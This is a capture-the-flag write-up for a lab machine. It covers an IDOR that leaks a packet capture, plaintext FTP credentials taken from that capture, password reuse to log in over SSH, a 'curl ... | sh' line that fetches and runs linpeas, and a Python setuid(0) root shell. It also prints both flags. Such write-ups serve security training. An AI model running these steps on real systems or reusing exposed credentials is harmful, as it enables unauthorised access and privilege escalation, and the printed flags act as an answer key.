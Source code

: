 ```yaml
---
sticker: emoji//1f9e2
---
```


# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![](../images/Pasted%20image%2020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![](../images/Pasted%20image%2020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![](../images/Pasted%20image%2020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![](../images/Pasted%20image%2020250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![](../images/Pasted%20image%2020250107162125.png)


Now we have packets to read! Let's download the file and analyze it with wireshark:

![](../images/Pasted%20image%2020250107162221.png)

```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![](../images/Pasted%20image%2020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![](../images/Pasted%20image%2020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![](../images/Pasted%20image%2020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![](../images/Pasted%20image%2020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![](../images/Pasted%20image%2020250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![](../images/Pasted%20image%2020250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![](../images/Pasted%20image%2020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![](../images/Pasted%20image%2020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![](../images/Pasted%20image%2020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![](../images/Pasted%20image%2020250107165038.png)

We can also see this procedure in Gtfobins:

![](../images/Pasted%20image%2020250107165210.png)

```

Just like that, CTF is done, let's read root flag and submit it:

![](../images/Pasted%20image%2020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

